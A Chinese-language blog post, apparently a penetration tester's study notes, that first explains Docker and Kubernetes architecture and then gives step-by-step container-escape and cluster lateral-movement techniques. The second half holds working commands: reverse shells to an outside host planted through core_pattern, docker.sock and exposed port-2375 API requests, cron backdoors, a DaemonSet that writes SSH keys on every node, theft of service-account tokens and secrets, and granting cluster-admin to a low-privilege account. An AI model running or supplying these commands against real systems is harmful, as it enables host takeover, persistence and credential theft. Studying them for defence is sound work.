






+++
date = '2026-03-30T21:28:24+08:00'
draft = false
title = 'K8s&Docker'

+++

## Docker

docker是一种轻量级容器技术,可将应用及其依赖打包成标准化单元

## Docker的优势

1. 启动快速
2. 跨平台
3. 高效运维
4. 环境一致性 (避免只有我的机器能跑)


## K8s的作用和架构

### 为什么需要k8s? 

假设现在又10个容器让你管理,管理的过来,那随着业务发展增加到1000台呢,这些容器又部署在不同的服务器上,每一个环境都不相同.那有什么办法解决这个问题?  于是k8s应运而生

### k8s的优势

1. 资源自动调度

   ```
   k8s会根据容器所需的资源扫描服务器集群,把空闲的机器部署容器,实现资源最大化
   ```

2. 负载均衡

   ```
   k8s提供一个统一的入口,不管后端容器的IP变化,都会转发到对应的容器中
   ```

3. 自动修复 

   ```
   k8s会不断检查运行状态,如果容器挂了会自动拉起一个新的,如果机器坏了,会自动迁移到其他机器上
   ```

### K8s核心组件



**Pod**

- pod是最小的可部署对象
- 它可以封装一个或者多个容器,**POD中的网络和存储,凭据共享**
- k8s不直接运行容器而是运行pod,pod中的容器一般同时运行在一台node中

**API Server:** 集群的唯一入口,所有指令优先发送到它
**node:** 实际运行容器的机器
**scheduler:**调度器,监视API Server看有没有没有分配node的POD
**Service:** 服务的固定访问入口
**Deployment:** 声明式定义应用版本与副本数
**Horizontal Autoscaler:** 根据CPU/内存自动扩缩容

## K8s POD生命周期

pod的生命周期是临时的,一旦出错就会销毁,并新建一个pod代替,所以**不可存储重要数据**

### 阶段一: 用户提交请求



用户: 用户通过定义kubectl或直接调用API提交Pod定义文件(YAML/JSON)

入口组件: API Server 是唯一入口(端口6443)

### 阶段二: API Server 鉴权流程



**RBAC** 的全称是 **Role-Based Access Control**（基于角色的访问控制）可以理解为ACL

认证步骤:

1. 认证

   TLS双向认证(证书),Bearer Token

2. 授权

   检查用户是否有创建pod的权限

3. 准入控制

### 阶段三: 调度器选择节点



调度策略详解:

1. 预选

   检查节点资源是否满足(CPU/Memory)

   匹配节点标签(如 disk=ssd)

2. 优选

   计算节点剩余资源量(BeatEFFort策略)

   检查亲和性和反亲和性规则

3. 绑定

### 阶段四: 节点创建POD



节点操作流程:

1. kubelet 监听事件

   持续监听API Server 的pod变更事件

2. 容器创建
   调用容器运行时拉取镜像

   创建容器命名空间和Cgroups限制

3. 网络配置
   CNI插件分配IP

   配置iptables/ipvs规则

4. 状态上报

### 阶段五: 服务暴露与访问



流量解析流程:

1. 用户访问
   用户访问域名
2. Ingress
   根据域名或者路径将流量分发到不同的Service
3. Service
   pod的IP是变动的,但是Service提供了一个固定的虚拟IP,它将请求发给后端的POD
4. Endpoint
   记录了后端所有的真实IP地址和端口,Service通过它连接pod.如果pod挂了,就会从名单中删除
5. pod
   到达容器内的web应用


## Docker逃逸

**注:** docker逃逸是k8s横向的前提

##### 判断是否在容器中的方法

1. 执行`systemd-detect-virt`命令,检测当前系统是否运行在虚拟化环境（虚拟机）或容器中

   ```bash
   输出结果,说明
   kvm,KVM (Kernel-based Virtual Machine)
   qemu,QEMU 模拟器
   vmware,VMware 虚拟机
   microsoft,Microsoft Hyper-V
   oracle,Oracle VirtualBox
   xen,Xen 虚拟化平台
   uml,User-mode Linux
   lxc,Linux Containers (LXC)
   docker,Docker 容器
   podman,Podman 容器
   systemd-nspawn,systemd 容器
   none,未检测到虚拟化（物理机）
   ```

2. 通过主机名或者进程判断

   ```bash
   # 查看主机名(主机名可修改,不一定准确)
   hostname
   特征: docker中主机名通常是一串随机的 12 位十六进制字符（例如 8a2f4c3b1e9d），或者在 Kubernetes 中表现为 deployment-name-xxxxxx-yyyyy
   
   # 查看进程
   ps aux 或 pstree
   特征:
   containerd-shim：Docker 容器的标志。
   tini：很多 Docker 镜像的默认启动入口。
   pause：在 Kubernetes Pod 中，每个容器组都有一个 pause 容器占位。
   ```

3. 检查`.dockerenv`文件,docker启动会在容器根目录创建一个名为`.dockerenv`的文件

   ```bash
   ls -la /.dockerenv
   ```

4. 查看cgroup

   ```bash
   cat /proc/1/cgroup
   特征:
   结果中包含docker字样,就是在docker中
   包含kubepods就是在K8s中
   ```

   一个快速识别的命令

```bash
grep -qi "docker\|kubepods" /proc/1/cgroup && echo "Is Docker" || echo "Not Docker"
```


**Docker逃逸的造成的根本原因可以大致分为以下几类:**

1. **配置不当:** 滥用特权模式(`privileged: true`), 权限配置不当, 挂载敏感目录
2.  **宿主机内核漏洞**: Docker和宿主机共享内核,如果宿主机存在内核漏洞就可能导致逃逸
3. **容器组件自身漏洞:** 负责管理容器生命周期的 `runc(CVE-2019-5736)`、`containerd(CVE-2020-15257)` 或 Docker Daemon 本身）如果存在代码逻辑漏洞,也会导致逃逸
4. **敏感信息泄露:** 如在docker中存在ssh密码或者云环境的相关凭据(Kubernetes的ServiceAccount Token, AccessKey等)

### 配置不当

最多的情况是使用了特权模式`privileged: true`或者是挂载了敏感目录

#### 特权模式: 

```bash
判断是否是特权模式
cat /proc/self/status | grep CapEff    如果是特权模式有0000003fffffffff这样的特征

# 0. 查看真实的磁盘
fdisk -l

# 1. 创建挂载目录
mkdir /tmp/host_disk

# 2. 将宿主机的根分区挂载到容器内（这里以 /dev/sda1 为例）
mount /dev/sda1 /tmp/host_disk

# 3. 这时候就有了宿主机的操作权限.可以写入密码或者密钥等操作或者使用chroot逃逸
chroot /tmp/host_disk		#进入宿主机的shell环境
```

#### 敏感目录挂载

挂载一些敏感目录如根目录,`/proc`目录,或者挂载套接字文件都会导致逃逸

##### `/proc`目录逃逸

**原理:** `/proc` 包含了 Linux 内核和进程的动态信息。其中 `/proc/sys/kernel/core_pattern` 负责配置程序崩溃（Core Dump）时内核如何处理。如果容器能写这个文件，就可以通过在容器内故意触发一个进程崩溃，让**宿主机内核**去执行指定的恶意脚本。

**利用方式:**

```bash
# 0 确认是否挂载,且core_pattern是否有写入权限
mount | grep proc

# 1 找到容器在宿主机上的绝对路径
cat /proc/self/mountinfo | grep UpperDir
会返回类似 /var/lib/docker/.../.../diff 的路径
说明在宿主机上的路径是/var/lib/docker/.../.../diff/tmp/shell.sh

# 2 在容器内/tmp/shell.sh写入反弹shell,并给执行权限
cat < /tmp/shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
EOF

chmod +x /tmp/shell.sh

# 3 将推导出的宿主机路径,写入到挂载的core_pattern文件中
echo "|/var/lib/docker/overlay2/a1b2c3d4e5.../diff/tmp/shell.sh" > /host_proc/sys/kernel/core_pattern

# 4 vps上启动监听

# 5 制造进行崩溃
// crash.c
int main() {
    int *p = 0;
    *p = 1; // 故意向内存地址 0 写数据，引发段错误
    return 0;
}
```


##### 套接字文件逃逸(socket)

docker.sock是docker的守护进程默认监听的Unix域套接字,用于docker架构中的本地进程通信(IPC). Docker的命令如: `docker run`, `docker ps`等都是后台通过这个套接字发送HTTP请求给Docker Daemon来控制容器

**原理:** 由于 Docker Daemon 本身在宿主机上是以 **`root` 权限**运行的，如果容器内部被错误地挂载了 `docker.sock`，并且容器内进程有写权限，那么攻击者就可以直接向这个套接字发送恶意的 API 请求，强迫宿主机替自己生出一个具有最高权限的“兄弟容器”，从而接管整个宿主机

**利用步骤:**

```bash
# 检查docker.sock是否存在,并测试能否与宿主机的Docker Deamon通信,并获取API版本号
curl --unix-socket /var/run/docker.sock http://localhost/version

# 下载镜像(通常选择现有的轻量化镜像如alpine,如果没有通过API让宿主机后台下载)
curl --unix-socket /var/run/docker.sock -X POST "http://localhost/v1.41/images/create?fromImage=alpine&tag=latest"

# 构造JSON创建容器
需要向/containers/create 接口发送一个 POST 请求,并
1. 将宿主机的根目录 / 挂载到新容器的 /host_root。
2. 让新容器在宿主机中以 Host 网络模式运行，或开启特权。

curl --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" \
  -d '{
    "Image": "alpine:latest",
    "Cmd": ["/bin/sh", "-c", "chroot /host_root /bin/bash -c \"bash -i >& /dev/tcp/10.10.10.10/4444 0>&1\""],
    "HostConfig": {
      "Binds": ["/:/host_root"]
    }
  }' \
  http://localhost/v1.41/containers/create
  之后返回JSON,内包含容器ID
  
  # 启动容器
  curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/e9c3a2f8(id)/start
```

扩展: 有些socket逃逸不需要错误挂载`docker.sock`

#### Docker remote api未授权访问

本质和docker.sock逃逸很像,都是通过Docker Daemon进行逃逸,如果没有配置TLS证书就会导致未授权,不同的是`docker.sock` 走的是本地文件 IPC 通信，而 `Remote API` 走的是网络 TCP 通信（默认端口为 **2375** 纯文本 或 **2376** 开启 TLS）可以根据攻击者的位置分为两种场景

1. **远程控制（Host Compromise）：** 攻击者从外网直接向暴露在公网的 Docker 端口发指令，直接拿下新宿主机。
2. **容器逃逸（Container Escape）：** 攻击者已经在一个低权限容器内，发现宿主机把 2375 端口暴露在了内网（或者容器能访问到宿主机的内网 IP），从而通过网络套接字（TCP Socket）反向接管宿主机。

**方法一: 通过本地docker命令逃逸**

条件: 安装docker命令行工具

```bash
# 测试开放的端口是否存在未授权
docker -H tcp://<目标IP>:2375 version

#启动一个挂载根目录的特权容器
docker -H tcp://<目标IP>:2375 run -it -v /:/host_root alpine sh

#通过各种方式写后门如ssh密钥,这里用计划任务
echo "* * * * * root bash -i >& /dev/tcp/<攻击者IP>/<端口> 0>&1" > /host_root/etc/cron.d/unauth_escape
```

**方法二: 利用curl请求进行逃逸**

```bash
#向目标的 /containers/create 接口发送 POST 请求。在 JSON 载荷中指定挂载宿主机根目录 /:/host_root，并让其执行写定时任务的命令
curl -X POST -H "Content-Type: application/json" \
  -d '{
    "Image": "alpine:latest",
    "Cmd": ["sh", "-c", "echo \"* * * * * root bash -i >& /dev/tcp/<攻击者IP>/4444 0>&1\" > /host_root/etc/cron.d/unauth_escape"],
    "HostConfig": {
      "Binds": ["/:/host_root"]
    }
  }' \
  http://<目标IP>:2375/containers/create
  
 返回容器ID
 # 启动容器触发反弹shell
 curl -X POST http://<目标IP>:2375/containers/8a7b6c5d.../start
```

### 内核漏洞

**漏洞原因**: 是因为docker为了结束资源和物理机共用内核,所以宿主机有内核漏洞,docker也存在漏洞

**怎么判断是否有内核漏洞**

1. 检查内核版本

```bash
uname -a
# 或者查看伪文件系统信息
cat /proc/version
```

2. 检查cgroupsv版本

   ```bash
   # 查看当前环境挂载的是 cgroup v1 还是 v2
   mount | grep cgroup
   
   如何判断：如果看到挂载大批 cgroup on /sys/fs/cgroup/memory 等独立目录，说明是 cgroups v1。如果该目录下允许容器修改 release_agent 且容器拥有 CAP_SYS_ADMIN 权限，则大概率存在内核机制逃逸漏洞
   ```

### 组件漏洞

**怎么探测组件漏洞**

1. 通过docker.sock

```bash
# 如果容器内有 curl，直接查 API 的 version 接口
curl --unix-socket /var/run/docker.sock http://localhost/version
```

2. 上传自动化工具

# K8s横向

## 1. Pod-to-Pod

在k8s中pod之间默认是可以进行网络通信的即使不在一个Namespace,除非配置了网络隔离策略`NetworkPolicy`

补充:

- **Node节点:**  node是物理划分,Pod运行在不同的机器(Node)上,仅进行计算机的资源分配
- **Namespace命名空间:** Namespace是逻辑划分,将Pod分成不同的组,但是不会提供网络隔离

#### **信息收集探测横向目标**

1. 可以使用`env`或`printenv`探测其他内部IP和端口
2. 如果集群挂载了CoreDNS可以利用 DNS 解析规律去Fuzz其他服务

```
命名格式: <service-name>.<namespace>.svc.cluster.local
```

3, 可以使用工具或者脚本进行网络探测

```bash
for ip in {1..254}; do
  for port in 80 6379 8080 27017; do
    (echo < /dev/tcp/10.244.1.$ip/$port) &>/dev/null && echo "Found: 10.244.1.$ip:$port"
  done
done
```

#### **常用攻击利用方式**

**未授权或Web漏洞**

1. 寻找中间件,微服务,数据库等进行弱口令测试
2. pod是web应用就可以测试web漏洞
3. SSRF,利用存在SSRF的Pod攻击其他Pod

**基于API横向**

查看pod的身份凭证

```bash
/var/run/secrets/kubernetes.io/serviceaccount/token
```

通过token构造请求向API Server（默认地址为 `https://kubernetes.default.svc`）发起请求。

**基于RABC横向**

如果当前 Pod 的 ServiceAccount 拥有以下特定权限，即可实现横向移动

1. 拥有 `pods/exec` 权限:

   ```bash
   # 使用 curl 或 kubectl 连载目标 Pod
   kubectl exec -it <target-pod-name> -n <target-namespace> -- /bin/bash
   ```

2. 拥有 `pods/create` 权限:可以创建一个Pod 获得宿主机权限”或“通过 Pod 内部网络进行渗透”。

3. 拥有 `secrets` 观察权限（`get/list/watch`）: 扩大供给面

   ```bash
   #可以直接通过 API Server 的 REST 接口拉取整个 Namespace 下的所有 Secret
   
   # 1. 设置环境变量（Token 从 /var/run/secrets/... 中读取）
   TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
   APISERVER=https://kubernetes.default.svc
   
   # 2. 列出目标命名空间的所有 Secret
   curl -k -H "Authorization: Bearer $TOKEN" $APISERVER/api/v1/namespaces/default/secrets
   
   # 3.获取其详细内容
   curl -k -H "Authorization: Bearer $TOKEN" $APISERVER/api/v1/namespaces/default/secrets/db-creds
   ```

## 2. RBAC滥用

#### 滥用创建权限(create)

如果当前 Token 拥有对集群资源的 `create` 权限，攻击者可以通过创建恶意资源实现大范围的横向移动,如:`pods`,`deployments`,`daemonsets`,`statefulsets`）

**利用 DaemonSet 进行全节点横向**

**原理:** DaemonSet 的特性是会在集群中的每一个 Node（节点）上都自动运行一个 Pod 副本。所以在 DaemonSet 的 Spec 中配置特权模式并挂载宿主机根目录部署将同时在集群内的所有节点上获得一个特权后门

```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: cluster-wide-backdoor
spec:
  selector:
    matchLabels:
      name: backdoor
  template:
    metadata:
      labels:
        name: backdoor
    spec:
      hostPID: true # 共享宿主机 PID
      containers:
      - name: alpine
        image: alpine
        command: ["/bin/sh", "-c", "echo '恶意公钥' >> /mnt/host/root/.ssh/authorized_keys && sleep 3600"]
        volumeMounts:
        - name: host-root
          mountPath: /mnt/host
      volumes:
      - name: host-root
        hostPath:
          path: /
```

#### 滥用远程执行权限

(pods/exec` 或 `pods/ephemeralcontainers` `create/update)

1. pods/exec

   攻击者可以先通过 API Server 列出（List）当前命名空间或全集群的所有 Pod，然后进入核心业务Pod,如 `mysql`、`redis`、`payment`、`auth`，直接 `exec` 进去劫持其业务流量。

2. pods/ephemeralcontainers

   新版K8s中为了安全去除了`bash/sh`但如果拥有 `pods/ephemeralcontainers` 的 `update` 权限可以向正在运行的敏感 Pod 中**动态注入**一个带有完整工具链（如 Ubuntu/Alpine）的临时容器，并共享目标容器的命名空间

#### 滥用凭据查看权限

**漏洞原因**:权限允许 `get` 或 `list` 敏感的 `secrets`

寻找属于 `admin`、`kube-system` 或第三方高权限组件（如 Helm、ArgoCD、Jenkins）的 Token。拿到这些 Token 后，攻击者在本地攻击机上配置 `kubeconfig`，直接以更高身份接管集群

#### 滥用绑定和越权

`rolebindings` / `clusterrolebindings` `create/update

拥有 `clusterrolebindings/create` 权限。

创建一个新的 `ClusterRoleBinding`，将系统自带的角色 `cluster-admin` 绑定到自己当前的低权限 ServiceAccount 上,命令示例

```bash
kubectl create clusterrolebinding pwned-admin \
  --clusterrole=cluster-admin \
  --serviceaccount=default:current-low-priv-sa
```

#### 滥用用户伪装

允许一个用户以另一个用户或组的身份去执行请求. 原本是用于管理员排查问题

**漏洞原因**: RBAC 中，`verbs` 包含 `impersonate`

当Token拥有对`Users`或`groups`的的 `impersonate` 权限,可以通过构造api请求,借用管理员的权限

```bash
# 假装自己是系统内置的 admin
kubectl get pods --as=system:admin
# 或者假装自己属于顶级管理员组
kubectl get secrets --as-group=system:masters
```

#### 快速确认Token权限

```bash
# 1. 检查当前身份在当前 Namespace 拥有哪些核心权限
kubectl auth can-i --list

# 2. 盲测是否具备某些高危横向能力（返回 yes/no）
kubectl auth can-i create pods
kubectl auth can-i create daemonsets --all-namespaces
kubectl auth can-i list secrets --all-namespaces
kubectl auth can-i create pods/exec

# 3. 自动化工具
# 使用 rakkess 工具可以枚举出权限
rakkess --token=<TOKEN>
```


## 3. node-to-node

## 


部分参考文章

```
https://github.com/neargle/re0-kubernetes-sec-archive
https://wiki.teamssix.com/CloudNative/Kubernetes/k8s-horizontal-taints.html
https://www.anquanke.com/post/id/250959
https://blog.imoe.tech/2023/06/16/user-impersonation-in-kubernetes/

```

